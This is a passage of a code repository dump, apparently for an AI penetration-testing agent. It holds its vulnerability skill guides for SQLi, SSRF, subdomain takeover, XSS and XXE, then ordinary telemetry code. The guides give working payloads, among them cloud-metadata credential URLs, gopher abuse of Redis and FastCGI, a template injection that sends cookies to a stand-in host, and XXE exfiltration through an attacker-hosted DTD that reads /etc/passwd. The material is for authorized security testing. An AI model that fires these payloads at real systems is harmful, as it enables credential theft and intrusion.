1. Show a reliable oracle (error/boolean/time/OAST) and prove control by toggling predicates
2. Extract verifiable metadata (version, current user, database name) using the established channel
3. Retrieve or modify a non-trivial target (table rows, role flag) within legal scope
4. Provide reproducible requests that differ only in the injected fragment
5. Where applicable, demonstrate defense-in-depth bypass (WAF on, still exploitable via variant)

## False Positives

- Generic errors unrelated to SQL parsing or constraints
- Static response sizes due to templating rather than predicate truth
- Artificial delays from network/CPU unrelated to injected function calls
- Parameterized queries with no string concatenation, verified by code review

## Impact

- Direct data exfiltration and privacy/regulatory exposure
- Authentication and authorization bypass via manipulated predicates
- Server-side file access or command execution (platform/privilege dependent)
- Persistent supply-chain impact via modified data, jobs, or procedures

## Pro Tips

1. Pick the quietest reliable oracle first; avoid noisy long sleeps
2. Normalize responses (length/ETag/digest) to reduce variance when diffing
3. Aim for metadata then jump directly to business-critical tables; minimize lateral noise
4. When UNION fails, switch to error- or blind-based bit extraction; prefer OAST when available
5. Treat ORMs as thin wrappers: raw fragments often slip through; audit `whereRaw`/`orderByRaw`
6. Use CTEs/derived tables to smuggle expressions when filters block SELECT directly
7. Exploit JSON/JSONB operators in Postgres and JSON functions in MySQL for side channels
8. Keep payloads portable; maintain DBMS-specific dictionaries for functions and types
9. Validate mitigations with negative tests and code review; parameterize operators/lists correctly
10. Document exact query shapes; defenses must match how the query is constructed, not assumptions

## Summary

Modern SQLi succeeds where authorization and query construction drift from assumptions. Bind parameters everywhere, avoid dynamic identifiers, and validate at the exact boundary where user input meets SQL.
```

## File: `strix/skills/vulnerabilities/ssrf.md`
```markdown
---
name: ssrf
description: SSRF testing for cloud metadata access, internal service discovery, and protocol smuggling
---

# SSRF

Server-Side Request Forgery enables the server to reach networks and services the attacker cannot. Focus on cloud metadata endpoints, service meshes, Kubernetes, and protocol abuse to turn a single fetch into credentials, lateral movement, and sometimes RCE.

## Attack Surface

**Scope**
- Outbound HTTP/HTTPS fetchers (proxies, previewers, importers, webhook testers)
- Non-HTTP protocols via URL handlers (gopher, dict, file, ftp, smb wrappers)
- Service-to-service hops through gateways and sidecars (envoy/nginx)
- Cloud and platform metadata endpoints, instance services, and control planes

**Direct URL Params**
- `url=`, `link=`, `fetch=`, `src=`, `webhook=`, `avatar=`, `image=`

**Indirect Sources**
- Open Graph/link previews, PDF/image renderers
- Server-side analytics (Referer trackers), import/export jobs
- Webhooks/callback verifiers

**Protocol-Translating Services**
- PDF via wkhtmltopdf/Chrome headless, image pipelines
- Document parsers, SSO validators, archive expanders

**Less Obvious**
- GraphQL resolvers that fetch by URL
- Background crawlers, repository/package managers (git, npm, pip)
- Calendar (ICS) fetchers

## High-Value Targets

### AWS

- IMDSv1: `http://169.254.169.254/latest/meta-data/` → `/iam/security-credentials/{role}`, `/user-data`
- IMDSv2: requires token via PUT `/latest/api/token` with header `X-aws-ec2-metadata-token-ttl-seconds`, then include `X-aws-ec2-metadata-token` on subsequent GETs
- If sink cannot set headers or methods, seek intermediaries that can
- ECS/EKS task credentials: `http://169.254.170.2$AWS_CONTAINER_CREDENTIALS_RELATIVE_URI`

### GCP

- Endpoint: `http://metadata.google.internal/computeMetadata/v1/`
- Required header: `Metadata-Flavor: Google`
- Target: `/instance/service-accounts/default/token`

### Azure

- Endpoint: `http://169.254.169.254/metadata/instance?api-version=2021-02-01`
- Required header: `Metadata: true`
- MSI OAuth: `/metadata/identity/oauth2/token`

### Kubernetes

- Kubelet: 10250 (authenticated) and 10255 (deprecated read-only)
- Probe `/pods`, `/metrics`, exec/attach endpoints
- API server: `https://kubernetes.default.svc/`
- Authorization often needs service account token; SSRF that propagates headers/cookies may reuse them
- Service discovery: attempt cluster DNS names (`svc.cluster.local`) and default services (kube-dns, metrics-server)

### Internal Services

- Docker API: `http://localhost:2375/v1.24/containers/json` (no TLS variants often internal-only)
- Redis/Memcached: `dict://localhost:11211/stat`, gopher payloads to Redis on 6379
- Elasticsearch/OpenSearch: `http://localhost:9200/_cat/indices`
- Message brokers/admin UIs: RabbitMQ, Kafka REST, Celery/Flower, Jenkins crumb APIs
- FastCGI/PHP-FPM: `gopher://localhost:9000/` (craft records for file write/exec when app routes to FPM)

## Key Vulnerabilities

### Protocol Exploitation

**Gopher**
- Speak raw text protocols (Redis/SMTP/IMAP/HTTP/FCGI)
- Use to craft multi-line payloads, schedule cron via Redis, or build FastCGI requests

**File and Wrappers**
- `file:///etc/passwd`, `file:///proc/self/environ` when libraries allow file handlers
- `jar:`, `netdoc:`, `smb://` and language-specific wrappers (`php://`, `expect://`) where enabled

### Address Variants

- Loopback: `127.0.0.1`, `127.1`, `2130706433`, `0x7f000001`, `::1`, `[::ffff:127.0.0.1]`
- RFC1918/link-local: 10/8, 172.16/12, 192.168/16, 169.254/16
- Test IPv6-mapped and mixed-notation forms

### URL Confusion

- Userinfo and fragments: `http://internal@attacker/` or `http://attacker#@internal/`
- Scheme-less/relative forms the server might complete internally: `//169.254.169.254/`
- Trailing dots and mixed case: `internal.` vs `INTERNAL`, Unicode dot lookalikes

### Redirect Abuse

- Allowlist only applied pre-redirect: 302 from attacker → internal host
- Test multi-hop and protocol switches (http→file/gopher via custom clients)

### Header and Method Control

- Some sinks reflect or allow CRLF-injection into the request line/headers
- If arbitrary headers/methods are possible, IMDSv2, GCP, and Azure become reachable

## Bypass Techniques

**Address Encoding**
- Decimal, hex, octal representations of IP addresses
- IPv6 variants, IPv4-mapped IPv6, mixed notation

**DNS Rebinding**
- First resolution returns allowed IP, second returns internal target
- Use short TTL DNS records under attacker control

**URL Parser Differentials**
- Different parsing between allowlist checker and actual fetcher
- Exploit inconsistencies in scheme, host, port, path handling

**Redirect Chains**
- Initial URL passes allowlist, redirect targets internal host
- Protocol downgrade/upgrade through redirects

## Blind SSRF

- Use OAST (DNS/HTTP) to confirm egress
- Derive internal reachability from timing, response size, TLS errors, and ETag differences
- Build a port map by binary searching timeouts (short connect/read timeouts yield cleaner diffs)

## Chaining Attacks

- SSRF → Metadata creds → cloud API access (list buckets, read secrets)
- SSRF → Redis/FCGI/Docker → file write/command execution → shell
- SSRF → Kubelet/API → pod list/logs → token/secret discovery → lateral movement

## Testing Methodology

1. **Identify surfaces** - Every user-influenced URL/host/path across web/mobile/API and background jobs
2. **Establish oracle** - Quiet OAST DNS/HTTP callbacks first
3. **Internal addressing** - Pivot to loopback, RFC1918, link-local, IPv6, hostnames
4. **Protocol variations** - Test gopher, file, dict where supported
5. **Parser differentials** - Test across frameworks, CDNs, and language libraries
6. **Redirect behavior** - Single-hop, multi-hop, protocol switches
7. **Header/method control** - Can you influence request headers or HTTP method?
8. **High-value targets** - Metadata, kubelet, Redis, FastCGI, Docker, Vault, internal admin panels

## Validation

1. Prove an outbound server-initiated request occurred (OAST interaction or internal-only response differences)
2. Show access to non-public resources (metadata, internal admin, service ports) from the vulnerable service
3. Where possible, demonstrate minimal-impact credential access (short-lived token) or a harmless internal data read
4. Confirm reproducibility and document request parameters that control scheme/host/headers/method and redirect behavior

## False Positives

- Client-side fetches only (no server request)
- Strict allowlists with DNS pinning and no redirect following
- SSRF simulators/mocks returning canned responses without real egress
- Blocked egress confirmed by uniform errors across all targets and protocols

## Impact

- Cloud credential disclosure with subsequent control-plane/API access
- Access to internal control panels and data stores not exposed publicly
- Lateral movement into Kubernetes, service meshes, and CI/CD
- RCE via protocol abuse (FCGI, Redis), Docker daemon access, or scriptable admin interfaces

## Pro Tips

1. Prefer OAST callbacks first; then iterate on internal addressing and protocols
2. Test IPv6 and mixed-notation addresses; filters often ignore them
3. Observe library/client differences (curl, Java HttpClient, Node, Go); behavior changes across services and jobs
4. Redirects are leverage: control both the initial allowlisted host and the next hop
5. Metadata endpoints require headers/methods; verify if your sink can set them or if intermediaries add them
6. Use tiny payloads and tight timeouts to map ports with minimal noise
7. When responses are masked, diff length/ETag/status and TLS error classes to infer reachability
8. Chain quickly to durable impact (short-lived tokens, harmless internal reads) and stop there

## Summary

Any feature that fetches remote content on behalf of a user is a potential tunnel to internal networks and control planes. Bind scheme/host/port/headers explicitly or expect an attacker to route through them.
```

## File: `strix/skills/vulnerabilities/subdomain_takeover.md`
```markdown
---
name: subdomain-takeover
description: Subdomain takeover testing for dangling DNS records and unclaimed cloud resources
---

# Subdomain Takeover

Subdomain takeover lets an attacker serve content from a trusted subdomain by claiming resources referenced by dangling DNS (CNAME/A/ALIAS/NS) or mis-bound provider configurations. Consequences include phishing on a trusted origin, cookie and CORS pivot, OAuth redirect abuse, and CDN cache poisoning.

## Attack Surface

- Dangling CNAME/A/ALIAS to third-party services (hosting, storage, serverless, CDN)
- Orphaned NS delegations (child zones with abandoned/expired nameservers)
- Decommissioned SaaS integrations (support, docs, marketing, forms) referenced via CNAME
- CDN "alternate domain" mappings (CloudFront/Fastly/Azure CDN) lacking ownership verification
- Storage and static hosting endpoints (S3/Blob/GCS buckets, GitHub/GitLab Pages)

## Reconnaissance

### Enumeration Pipeline

- Subdomain inventory: combine CT (crt.sh APIs), passive DNS sources, in-house asset lists, IaC/terraform outputs
- Resolver sweep: use IPv4/IPv6-aware resolvers; track NXDOMAIN vs SERVFAIL vs provider-branded 4xx/5xx
- Record graph: build a CNAME graph and collapse chains to identify external endpoints

### DNS Indicators

- CNAME targets ending in provider domains: `github.io`, `amazonaws.com`, `cloudfront.net`, `azurewebsites.net`, `blob.core.windows.net`, `fastly.net`, `vercel.app`, `netlify.app`, `herokudns.com`, `trafficmanager.net`, `azureedge.net`, `akamaized.net`
- Orphaned NS: subzone delegated to nameservers on a domain that has expired or no longer hosts authoritative servers
- MX to third-party mail providers with decommissioned domains
- TXT/verification artifacts (`asuid`, `_dnsauth`, `_github-pages-challenge`) suggesting previous external bindings

### HTTP Fingerprints

Service-specific unclaimed messages (examples):
- **GitHub Pages**: "There isn't a GitHub Pages site here."
- **Fastly**: "Fastly error: unknown domain"
- **Heroku**: "No such app" or "There's nothing here, yet."
- **S3 static site**: "NoSuchBucket" / "The specified bucket does not exist"
- **CloudFront**: 403/400 with "The request could not be satisfied"
- **Azure App Service**: default 404 for azurewebsites.net unless custom-domain verified
- **Shopify**: "Sorry, this shop is currently unavailable"

TLS clues: certificate CN/SAN referencing provider default host instead of the custom subdomain

## Key Vulnerabilities

### Claim Third-Party Resource

- Create the resource with the exact required name:
  - Storage/hosting: S3 bucket "sub.example.com" (website endpoint)
  - Pages hosting: create repo/site and add the custom domain
  - Serverless/app hosting: create app/site matching the target hostname

### CDN Alternate Domains

- Add the victim subdomain as an alternate domain on your CDN distribution if the provider does not enforce domain ownership checks
- Upload a TLS cert or use managed cert issuance

### NS Delegation Takeover

- If a child zone is delegated to nameservers under an expired domain, register that domain and host authoritative NS
- Publish records to control all hosts under the delegated subzone

### Mail Surface

- If MX points to a decommissioned provider, takeover could enable email receipt for that subdomain

## Advanced Techniques

### Blind and Cache Channels

- CDN edge behavior: 404/421 vs 403 differentials reveal whether an alt name is partially configured
- Cache poisoning: once taken over, exploit cache keys to persist malicious responses

### CT and TLS

- Use CT logs to detect unexpected certificate issuance for your subdomain
- For PoC, issue a DV cert post-takeover (within scope) to produce verifiable evidence

### OAuth and Trust Chains

- If the subdomain is whitelisted as an OAuth redirect/callback or in CSP/script-src, takeover elevates to account takeover or script injection

### Verification Gaps

- Look for providers that accept domain binding prior to TXT verification
- Race windows: re-claim resource names immediately after victim deletion

### Wildcards and Fallbacks

- Wildcard CNAMEs to providers may expose unbounded subdomains
- Fallback origins: CDNs configured with multiple origins may expose unknown-domain responses

## Special Contexts

### Storage and Static

- S3/GCS/Azure Blob static sites: bucket naming constraints dictate whether a bucket can match hostname
- Website vs API endpoints differ in claimability and fingerprints

### Serverless and Hosting

- GitHub/GitLab Pages, Netlify, Vercel, Azure Static Web Apps: domain binding flows vary
- Most require TXT now, but historical projects may not

### CDN and Edge

- CloudFront/Fastly/Azure CDN/Akamai: alternate domain verification differs
- Some products historically allowed alt-domain claims without proof

### DNS Delegations

- Child-zone NS delegations outrank parent records
- Control of delegated NS yields full control of all hosts below that label

## Testing Methodology

1. **Enumerate subdomains** - Aggregate CT logs, passive DNS, and org inventory
2. **Resolve DNS** - All RR types: A/AAAA, CNAME, NS, MX, TXT; keep CNAME chains
3. **HTTP/TLS probe** - Capture status, body, error text, Server headers, certificate SANs
4. **Fingerprint providers** - Map known "unclaimed/missing resource" signatures
5. **Attempt claim** (with authorization) - Create missing resource with exact required name
6. **Validate control** - Serve minimal unique payload; confirm over HTTPS

## Validation

1. Before: record DNS chain, HTTP response (status/body length/fingerprint), and TLS details
2. After claim: serve unique content and verify over HTTPS at the target subdomain
3. Optional: issue a DV certificate (legal scope) and reference CT entry as evidence
4. Demonstrate impact chains (CSP/script-src trust, OAuth redirect acceptance, cookie Domain scoping)

## False Positives

- "Unknown domain" pages that are not claimable due to enforced TXT/ownership checks
- Provider-branded default pages for valid, owned resources (not a takeover)
- Soft 404s from your own infrastructure or catch-all vhosts

## Impact

- Content injection under trusted subdomain: phishing, malware delivery, brand damage
- Cookie and CORS pivot: if parent site sets Domain-scoped cookies or allows subdomain origins
- OAuth/SSO abuse via whitelisted redirect URIs
- Email delivery manipulation for subdomain

## Pro Tips

1. Build a pipeline: enumerate (subfinder/amass) → resolve (dnsx) → probe (httpx) → fingerprint (nuclei/custom) → verify claims
2. Maintain a current fingerprint corpus; provider messages change frequently
3. Prefer minimal PoCs: static "ownership proof" page and, where allowed, DV cert issuance
4. Monitor CT for unexpected certs on your subdomains
5. Eliminate dangling DNS in decommission workflows first
6. For NS delegations, treat any expired nameserver domain as critical
7. Use CAA to limit certificate issuance while you triage

## Summary

Subdomain safety is lifecycle safety: if DNS points at anything, you must own and verify the thing on every provider and product path. Remove or verify—there is no safe middle.
```

## File: `strix/skills/vulnerabilities/xss.md`
```markdown
---
name: xss
description: XSS testing covering reflected, stored, and DOM-based vectors with CSP bypass techniques
---

# XSS

Cross-site scripting persists because context, parser, and framework edges are complex. Treat every user-influenced string as untrusted until it is strictly encoded for the exact sink and guarded by runtime policy (CSP/Trusted Types).

## Attack Surface

**Types**
- Reflected, stored, and DOM-based XSS across web/mobile/desktop shells

**Contexts**
- HTML, attribute, URL, JS, CSS, SVG/MathML, Markdown, PDF

**Frameworks**
- React/Vue/Angular/Svelte sinks, template engines, SSR/ISR

**Defenses to Bypass**
- CSP/Trusted Types, DOMPurify, framework auto-escaping

## Injection Points

**Server Render**
- Templates (Jinja/EJS/Handlebars), SSR frameworks, email/PDF renderers

**Client Render**
- `innerHTML`/`outerHTML`/`insertAdjacentHTML`, template literals
- `dangerouslySetInnerHTML`, `v-html`, `$sce.trustAsHtml`, Svelte `{@html}`

**URL/DOM**
- `location.hash`/`search`, `document.referrer`, base href, `data-*` attributes

**Events/Handlers**
- `onerror`/`onload`/`onfocus`/`onclick` and `javascript:` URL handlers

**Cross-Context**
- postMessage payloads, WebSocket messages, local/sessionStorage, IndexedDB

**File/Metadata**
- Image/SVG/XML names and EXIF, office documents processed server/client

## Context Encoding Rules

- **HTML text**: encode `< > & " '`
- **Attribute value**: encode `" ' < > &` and ensure attribute quoted; avoid unquoted attributes
- **URL/JS URL**: encode and validate scheme (allowlist https/mailto/tel); disallow javascript/data
- **JS string**: escape quotes, backslashes, newlines; prefer `JSON.stringify`
- **CSS**: avoid injecting into style; sanitize property names/values; beware `url()` and `expression()`
- **SVG/MathML**: treat as active content; many tags execute via onload or animation events

## Key Vulnerabilities

### DOM XSS

**Sources**
- `location.*` (hash/search), `document.referrer`, postMessage, storage, service worker messages

**Sinks**
- `innerHTML`/`outerHTML`/`insertAdjacentHTML`, `document.write`
- `setAttribute`, `setTimeout`/`setInterval` with strings
- `eval`/`Function`, `new Worker` with blob URLs

**Vulnerable Pattern**
```javascript
const q = new URLSearchParams(location.search).get('q');
results.innerHTML = `<li>${q}</li>`;
```
Exploit: `?q=`

### Mutation XSS

Leverage parser repairs to morph safe-looking markup into executable code (e.g., noscript, malformed tags):
```html
<noscript><p title="</noscript>
<form><button formaction=javascript:alert(1)>
```

### Template Injection

Server or client templates evaluating expressions (AngularJS legacy, Handlebars helpers, lodash templates):
```
{{constructor.constructor('fetch(`//x.tld?c=`+document.cookie)')()}}
```

### CSP Bypass

- Weak policies: missing nonces/hashes, wildcards, `data:` `blob:` allowed, inline events allowed
- Script gadgets: JSONP endpoints, libraries exposing function constructors
- Import maps or modulepreload lax policies
- Base tag injection to retarget relative script URLs
- Dynamic module import with allowed origins

### Trusted Types Bypass

- Custom policies returning unsanitized strings; abuse policy whitelists
- Sinks not covered by Trusted Types (CSS, URL handlers) and pivot via gadgets

## Polyglot Payloads

Keep a compact set tuned per context:
- **HTML node**: `<svg onload=alert(1)>`
- **Attr quoted**: `" autofocus onfocus=alert(1) x="`
- **Attr unquoted**: `onmouseover=alert(1)`
- **JS string**: `"-alert(1)-"`
- **URL**: `javascript:alert(1)`

## Framework-Specific

### React

- Primary sink: `dangerouslySetInnerHTML`
- Secondary: setting event handlers or URLs from untrusted input
- Bypass patterns: unsanitized HTML through libraries; custom renderers using innerHTML

### Vue

- Sinks: `v-html` and dynamic attribute bindings
- SSR hydration mismatches can re-interpret content

### Angular

- Legacy expression injection (pre-1.6)
- `$sce` trust APIs misused to whitelist attacker content

### Svelte

- Sinks: `{@html}` and dynamic attributes

### Markdown/Richtext

- Renderers often allow HTML passthrough; plugins may re-enable raw HTML
- Sanitize post-render; forbid inline HTML or restrict to safe whitelist

## Special Contexts

### Email

- Most clients strip scripts but allow CSS/remote content
- Use CSS/URL tricks only if relevant; avoid assuming JS execution

### PDF and Docs

- PDF engines may execute JS in annotations or links
- Test `javascript:` in links and submit actions

### File Uploads

- SVG/HTML uploads served with `text/html` or `image/svg+xml` can execute inline
- Verify content-type and `Content-Disposition: attachment`
- Mixed MIME and sniffing bypasses; ensure `X-Content-Type-Options: nosniff`

## Post-Exploitation

- Session/token exfiltration: prefer fetch/XHR over image beacons for reliability
- Real-time control: WebSocket C2 with strict command set
- Persistence: service worker registration; localStorage/script gadget re-injection
- Impact: role hijack, CSRF chaining, internal port scan via fetch, credential phishing overlays

## Testing Methodology

1. **Identify sources** - URL/query/hash/referrer, postMessage, storage, WebSocket, server JSON
2. **Trace to sinks** - Map data flow from source to sink
3. **Classify context** - HTML node, attribute, URL, script block, event handler, JS eval-like, CSS, SVG
4. **Assess defenses** - Output encoding, sanitizer, CSP, Trusted Types, DOMPurify config
5. **Craft payloads** - Minimal payloads per context with encoding/whitespace/casing variants
6. **Multi-channel** - Test across REST, GraphQL, WebSocket, SSE, service workers

## Validation

1. Provide minimal payload and context (sink type) with before/after DOM or network evidence
2. Demonstrate cross-browser execution where relevant or explain parser-specific behavior
3. Show bypass of stated defenses (sanitizer settings, CSP/Trusted Types) with proof
4. Quantify impact beyond alert: data accessed, action performed, persistence achieved

## False Positives

- Reflected content safely encoded in the exact context
- CSP with nonces/hashes and no inline/event handlers
- Trusted Types enforced on sinks; DOMPurify in strict mode with URI allowlists
- Scriptable contexts disabled (no HTML pass-through, safe URL schemes enforced)

## Impact

- Session hijacking and credential theft
- Account takeover via token exfiltration
- CSRF chaining for state-changing actions
- Malware distribution and phishing
- Persistent compromise via service workers

## Pro Tips

1. Start with context classification, not payload brute force
2. Use DOM instrumentation to log sink usage; it reveals unexpected flows
3. Keep a small, curated payload set per context and iterate with encodings
4. Validate defenses by configuration inspection and negative tests
5. Prefer impact-driven PoCs (exfiltration, CSRF chain) over alert boxes
6. Treat SVG/MathML as first-class active content; test separately
7. Re-run tests under different transports and render paths (SSR vs CSR vs hydration)
8. Test CSP/Trusted Types as features: attempt to violate policy and record the violation reports

## Summary

Context + sink decide execution. Encode for the exact context, verify at runtime with CSP/Trusted Types, and validate every alternative render path. Small payloads with strong evidence beat payload catalogs.
```

## File: `strix/skills/vulnerabilities/xxe.md`
```markdown
---
name: xxe
description: XXE testing for external entity injection, file disclosure, and SSRF via XML parsers
---

# XXE

XML External Entity injection is a parser-level failure that enables local file reads, SSRF to internal control planes, denial-of-service via entity expansion, and in some stacks, code execution through XInclude/XSLT or language-specific wrappers. Treat every XML input as untrusted until the parser is proven hardened.

## Attack Surface

**Capabilities**
- File disclosure: read server files and configuration
- SSRF: reach metadata services, internal admin panels, service ports
- DoS: entity expansion (billion laughs), external resource amplification

**Injection Surfaces**
- REST/SOAP/SAML/XML-RPC, file uploads (SVG, Office)
- PDF generators, build/report pipelines, config importers

**Transclusion**
- XInclude and XSLT `document()` loading external resources

## High-Value Targets

**File Uploads**
- SVG/MathML, Office (docx/xlsx/ods/odt), XML-based archives
- Android/iOS plist, project config imports

**Protocols**
- SOAP/XML-RPC/WebDAV/SAML (ACS endpoints)
- RSS/Atom feeds, server-side renderers and converters

**Hidden Paths**
- Parameters: "xml", "upload", "import", "transform", "xslt", "xsl", "xinclude"
- Processing-instruction headers

## Detection Channels

### Direct

- Inline disclosure of entity content in the HTTP response, transformed output, or error pages

### Error-Based

- Coerce parser errors that leak path fragments or file content via interpolated messages

### OAST

- Blind XXE via parameter entities and external DTDs; confirm with DNS/HTTP callbacks
- Encode data into request paths/parameters to exfiltrate small secrets (hostnames, tokens)

### Timing

- Fetch slow or unroutable resources to produce measurable latency differences (connect vs read timeouts)

## Core Payloads

### Local File

```xml
<!DOCTYPE x [<!ENTITY xxe SYSTEM "file:///etc/passwd">]>
<r>&xxe;</r>
```

```xml
<!DOCTYPE x [<!ENTITY xxe SYSTEM "file:///c:/windows/win.ini">]>
<r>&xxe;</r>
```

### SSRF

```xml
<!DOCTYPE x [<!ENTITY xxe SYSTEM "http://127.0.0.1:2375/version">]>
<r>&xxe;</r>
```

```xml
<!DOCTYPE x [<!ENTITY xxe SYSTEM "http://169.254.170.2$AWS_CONTAINER_CREDENTIALS_RELATIVE_URI">]>
<r>&xxe;</r>
```

### OOB Parameter Entity

```xml
<!DOCTYPE x [<!ENTITY % dtd SYSTEM "http://attacker.tld/evil.dtd"> %dtd;]>
```

evil.dtd:
```xml
<!ENTITY % f SYSTEM "file:///etc/hostname">
<!ENTITY % e "<!ENTITY &#x25; exfil SYSTEM 'http://%f;.attacker.tld/'>">
%e; %exfil;
```

## Key Vulnerabilities

### Parameter Entities

- Use parameter entities in the DTD subset to define secondary entities that exfiltrate content
- Works even when general entities are sanitized in the XML tree

### XInclude

```xml
<root xmlns:xi="http://www.w3.org/2001/XInclude">
  <xi:include parse="text" href="file:///etc/passwd"/>
</root>
```

Effective where entity resolution is blocked but XInclude remains enabled in the pipeline.

### XSLT Document

XSLT processors can fetch external resources via `document()`:

```xml
<xsl:stylesheet version="1.0" xmlns:xsl="http://www.w3.org/1999/XSL/Transform">
  <xsl:template match="/">
    <xsl:copy-of select="document('file:///etc/passwd')"/>
  </xsl:template>
</xsl:stylesheet>
```

Targets: transform endpoints, reporting engines (XSLT/Jasper/FOP), xml-stylesheet PI consumers.

### Protocol Wrappers

- Java: `jar:`, `netdoc:`
- PHP: `php://filter`, `expect://` (when module enabled)
- Gopher: craft raw requests to Redis/FCGI when client allows non-HTTP schemes

## Bypass Techniques

**Encoding Variants**
- UTF-16/UTF-7 declarations, mixed newlines
- CDATA and comments to evade naive filters

**DOCTYPE Variants**
- PUBLIC vs SYSTEM, mixed case `<!DoCtYpE>`
- Internal vs external subsets, multi-DOCTYPE edge handling

**Network Controls**
- If network blocked but filesystem readable, pivot to local file disclosure
- If files blocked but network open, pivot to SSRF/OAST

## Special Contexts

### SOAP

```xml
<soap:Envelope xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/">
  <soap:Body>
    <!DOCTYPE d [<!ENTITY xxe SYSTEM "file:///etc/passwd">]>
    <d>&xxe;</d>
  </soap:Body>
</soap:Envelope>
```

### SAML

- Assertions are XML-signed, but upstream XML parsers prior to signature verification may still process entities/XInclude
- Test ACS endpoints with minimal probes

### SVG and Renderers

- Inline SVG and server-side SVG→PNG/PDF renderers process XML
- Attempt local file reads via entities/XInclude

### Office Docs

- OOXML (docx/xlsx/pptx) are ZIPs containing XML
- Insert payloads into document.xml, rels, or drawing XML and repackage

## Testing Methodology

1. **Inventory consumers** - Endpoints, upload parsers, background jobs, CLI tools, converters, third-party SDKs
2. **Capability probes** - Does parser accept DOCTYPE? Resolve external entities? Allow network access? Support XInclude/XSLT?
3. **Establish oracle** - Error shape, length/ETag diffs, OAST callbacks
4. **Escalate** - Targeted file/SSRF payloads
5. **Validate parity** - Same parser options must hold across REST, SOAP, SAML, file uploads, and background jobs

## Validation

1. Provide a minimal payload proving parser capability (DOCTYPE/XInclude/XSLT)
2. Demonstrate controlled access (file path or internal URL) with reproducible evidence
3. Confirm blind channels with OAST and correlate to the triggering request
4. Show cross-channel consistency (e.g., same behavior in upload and SOAP paths)
5. Bound impact: exact files/data reached or internal targets proven

## False Positives

- DOCTYPE accepted but entities not resolved and no transclusion reachable
- Filters or sandboxes that emit entity strings literally (no IO performed)
- Mocks/stubs that simulate success without network/file access
- XML processed only client-side (no server parse)

## Impact

- Disclosure of credentials/keys/configs, code, and environment secrets
- Access to cloud metadata/token services and internal admin panels
- Denial of service via entity expansion or slow external resources
- Code execution via XSLT/expect:// in insecure stacks

## Pro Tips

1. Prefer OAST first; it is the quietest confirmation in production-like paths
2. When content is sanitized, use error-based and length/ETag diffs
3. Probe XInclude/XSLT; they often remain enabled after entity resolution is disabled
4. Aim SSRF at internal well-known ports (kubelet, Docker, Redis, metadata) before public hosts
5. In uploads, repackage OOXML/SVG rather than standalone XML; many apps parse these implicitly
6. Keep payloads minimal; avoid noisy billion-laughs unless specifically testing DoS
7. Test background processors separately; they often use different parser settings
8. Validate parser options in code/config; do not rely on WAFs to block DOCTYPE
9. Combine with path traversal and deserialization where XML touches downstream systems
10. Document exact parser behavior per stack; defenses must match real libraries and flags

## Summary

XXE is eliminated by hardening parsers: forbid DOCTYPE, disable external entity resolution, and disable network access for XML processors and transformers across every code path.
```

## File: `strix/telemetry/flags.py`
```python
from strix.config import Config


_DISABLED_VALUES = {"0", "false", "no", "off"}


def _is_enabled(raw_value: str | None, default: str = "1") -> bool:
    value = (raw_value if raw_value is not None else default).strip().lower()
    return value not in _DISABLED_VALUES


def is_otel_enabled() -> bool:
    explicit = Config.get("strix_otel_telemetry")
    if explicit is not None:
        return _is_enabled(explicit)
    return _is_enabled(Config.get("strix_telemetry"), default="1")


def is_posthog_enabled() -> bool:
    explicit = Config.get("strix_posthog_telemetry")
    if explicit is not None:
        return _is_enabled(explicit)
    return _is_enabled(Config.get("strix_telemetry"), default="1")
```

## File: `strix/telemetry/posthog.py`
```python
import json
import platform
import sys
import urllib.request
from pathlib import Path
from typing import TYPE_CHECKING, Any
from uuid import uuid4

from strix.telemetry.flags import is_posthog_enabled


if TYPE_CHECKING:
    from strix.telemetry.tracer import Tracer

_POSTHOG_PUBLIC_API_KEY='[REDACTED_API_KEY]'
_POSTHOG_HOST = "https://us.i.posthog.com"

_SESSION_ID = uuid4().hex[:16]


def _is_enabled() -> bool:
    return is_posthog_enabled()


def _is_first_run() -> bool:
    marker = Path.home() / ".strix" / ".seen"
    if marker.exists():
        return False
    try:
        marker.parent.mkdir(parents=True, exist_ok=True)
        marker.touch()
    except Exception:  # noqa: BLE001, S110
        pass  # nosec B110
    return True


def _get_version() -> str:
    try:
        from importlib.metadata import version

        return version("strix-agent")
    except Exception:  # noqa: BLE001
        return "unknown"


def _send(event: str, properties: dict[str, Any]) -> None:
    if not _is_enabled():
        return
    try:
        payload = {
            "api_key": _POSTHOG_PUBLIC_API_KEY,
            "event": event,
            "distinct_id": _SESSION_ID,
            "properties": properties,
        }
        req = urllib.request.Request(  # noqa: S310
            f"{_POSTHOG_HOST}/capture/",
            data=json.dumps(payload).encode(),
            headers={"Content-Type": "application/json"},
        )
        with urllib.request.urlopen(req, timeout=10):  # noqa: S310  # nosec B310
            pass
    except Exception:  # noqa: BLE001, S110
        pass  # nosec B110


def _base_props() -> dict[str, Any]:
    return {
        "os": platform.system().lower(),
        "arch": platform.machine(),
        "python": f"{sys.version_info.major}.{sys.version_info.minor}",
        "strix_version": _get_version(),
    }


def start(
    model: str | None,
    scan_mode: str | None,
    is_whitebox: bool,
    interactive: bool,
    has_instructions: bool,
) -> None:
    _send(
        "scan_started",
        {
            **_base_props(),
            "model": model or "unknown",
            "scan_mode": scan_mode or "unknown",
            "scan_type": "whitebox" if is_whitebox else "blackbox",
            "interactive": interactive,
            "has_instructions": has_instructions,
            "first_run": _is_first_run(),
        },
    )


def finding(severity: str) -> None:
    _send(
        "finding_reported",
        {
            **_base_props(),
            "severity": severity.lower(),
        },
    )


def end(tracer: "Tracer", exit_reason: str = "completed") -> None:
    vulnerabilities_counts = {"critical": 0, "high": 0, "medium": 0, "low": 0, "info": 0}
    for v in tracer.vulnerability_reports:
        sev = v.get("severity", "info").lower()
        if sev in vulnerabilities_counts:
            vulnerabilities_counts[sev] += 1

    llm = tracer.get_total_llm_stats()
    total = llm.get("total", {})

    _send(
        "scan_ended",
        {
            **_base_props(),
            "exit_reason": exit_reason,
            "duration_seconds": round(tracer._calculate_duration()),
            "vulnerabilities_total": len(tracer.vulnerability_reports),
            **{f"vulnerabilities_{k}": v for k, v in vulnerabilities_counts.items()},
            "agent_count": len(tracer.agents),
            "tool_count": tracer.get_real_tool_count(),
            "llm_tokens": llm.get("total_tokens", 0),
            "llm_cost": total.get("cost", 0.0),
        },
    )


def error(error_type: str, error_msg: str | None = None) -> None:
    props = {**_base_props(), "error_type": error_type}
    if error_msg:
        props["error_msg"] = error_msg
    _send("error", props)
```

## File: `strix/telemetry/README.md`
```markdown
### Overview

To help make Strix better for everyone, we collect anonymized data that helps us understand how to better improve our AI security agent for our users, guide the addition of new features, and fix common errors and bugs. This feedback loop is crucial for improving Strix's capabilities and user experience.

